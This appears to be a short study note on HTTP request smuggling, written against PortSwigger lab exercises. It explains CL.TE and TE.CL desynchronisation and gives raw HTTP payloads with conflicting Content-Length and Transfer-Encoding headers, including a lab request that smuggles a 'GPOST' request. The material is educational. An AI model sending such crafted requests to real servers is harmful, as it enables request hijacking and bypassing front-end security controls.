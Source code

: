 ### CL.TE vulnerabilities

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

front：forward the whole request

end： 0 would be the end ， and SMUGGLED **will be treated as the start of next request**

```
LAB:
INSTALL   HTTP Request Smuggler

```

### TE.CL vulnerabilities

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

 front-end：usual request

 back-end：stop in the start of the line following 8

​					The following bytes, starting with SMUGGLED, are left unprocessed, and the back-end server will treat these as being 					the **start of the next request** in the sequence.

lab：

```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

